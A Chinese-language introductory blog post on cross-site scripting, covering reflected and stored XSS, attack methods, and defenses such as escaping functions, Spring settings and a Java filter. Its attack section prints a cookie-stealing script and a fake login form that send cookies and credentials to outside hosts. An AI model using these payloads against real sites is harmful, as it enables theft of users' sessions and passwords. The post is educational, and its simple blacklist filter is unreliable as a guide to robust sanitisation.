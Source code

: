 title: WEB安全初探之XSS
tags:
  - XSS
categories:
  - 信息安全
date: 2016-03-09 15:48:00
---

<img src="/asserts/images/logo/xss.png" class="img-logo img-center" />


XSS 全称(Cross Site Scripting) 跨站脚本攻击，是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的。比如获取用户的Cookie，导航到恶意网站,携带木马等。

## 0x01 XSS攻击的分类
根据XSS脚本注入方式的不同，我们可以对XSS攻击进行简单的分类。其中，最常见的就数反射型XSS和存储型XSS了。

### 1. 反射型XSS
反射型XSS，又称非持久型XSS。之所以称为反射型XSS，则是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的。而称为非持久型XSS，则是因为这种攻击方式具有一次性。
攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。

### 2. 存储型XSS
存储型XSS，又称持久型XSS，他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。


## 0x02 XSS攻击的手段及其危害

### 1. 窃取Cookie
具体实现方法：
先构造语句`<script>window.open('http://dlgyi.rrvv.net/cookie.asp?msg='+document.cookie)</script>`
这句话意思是打开一个新的窗口，访问http://dlgyi.rrvv.net/cookie.asp这个网址，并且通过msg传递一个变量，这里的变量就是我们要收集的cookie了。

### 2. 引导钓鱼
``` html
<script>
function hack()
{
                   location.replace(“http://www.attackpage.com/record.asp?username=“
+document.forms[0].user.value + “password=” + document.forms[0].pass.value);
}
</script>
<form>
<br><br><HR><H3>这个功能需要登录:</H3 >
<br><br>请输入用户名：<br>
<input type=”text” id=”user”name=”user”>
<br>请输入密码：<br>
<input type=”password” name =“pass”>
<br><input type=”submit”name=”login” value=”登录”onclick=”hack()”>
</form><br><br><HR>
```
注入上面的代码后，则会在原来的页面上，插入一段表单，要求用户输入自己的用户名和密码，而当用户点击“登录”按钮后，则会执行hack()函数，将用户的输入发送到攻击者指定的网站上去。这样，攻击者就成功窃取了该用户的账号信息。


<!-- more -->

## 0x03 XSS的预防

### 1. 前端过滤XSS
``` javascript
function xssCheck(str,reg){
    return str ? str.replace(reg || /[&<">'](?:(amp|lt|quot|gt|#39|nbsp|#\d+);)?/g, function (a, b) {
        if(b){
            return a;
        }else{
            return {
                '<':'&lt;',
                '&':'&amp;',
                '"':'&quot;',
                '>':'&gt;',
                "'":'&#39;',
            }[a]
        }
    }) : '';
}
```

### 2. 后端预防

#### spring提供的方法
``` xml
<context-param>
   <param-name>defaultHtmlEscape</param-name>
   <param-value>true</param-value>
</context-param>

Forms加上：<spring:htmlEscape defaultHtmlEscape="true" />
```

#### 手动escape
首先添加一个jar包：commons-lang-2.5.jar ，然后在后台调用这些函数：StringEscapeUtils.escapeHtml(string); StringEscapeUtils.escapeJavaScript(string); StringEscapeUtils.escapeSql(string);

#### 后台加Filter
``` java
private String cleanXSS(String value) {
    //You'll need to remove the spaces from the html entities below
    value = value.replaceAll("<", "& lt;").replaceAll(">", "& gt;");
    value = value.replaceAll("\\(", "& #40;").replaceAll("\\)", "& #41;");
    value = value.replaceAll("'", "& #39;");
    value = value.replaceAll("eval\\((.*)\\)", "");
    value = value.replaceAll("[\\\"\\\'][\\s]*javascript:(.*)[\\\"\\\']", "\"\"");
    value = value.replaceAll("script", "");
    return value;
}
```


## 0x04 一款XSS漏洞检测爬虫 - XSScrapy
``` bash
./xsscrapy.py -u http://example.com
./xsscrapy.py -u http://example.com/login_page -l loginname
```


## 0x05 XSS练习
http://vulnweb.janusec.com/index-xss.php


## 0x06 推荐站点
- [WooYun知识库](http://drops.wooyun.org/)
- [FreeBuf黑客与极客](http://www.freebuf.com/)
- [SecWiki](http://www.sec-wiki.com/index.php)


## 0x07 参考文档
- [XSS的原理分析与解剖](http://www.freebuf.com/articles/web/40520.html)
- [XSS的原理分析与解剖（第二篇）](http://www.freebuf.com/articles/web/42727.html)
- [前端防御XSS](http://drops.wooyun.org/web/13009)
- [Spring MVC防御CSRF、XSS和SQL注入攻击](http://www.cnblogs.com/Mainz/archive/2012/11/01/2749874.html)
- [快速、直接的XSS漏洞检测爬虫 – XSScrapy](http://itindex.net/detail/51089-xss-xsscrapy)
- [xsscrapy](https://github.com/DanMcInerney/xsscrapy)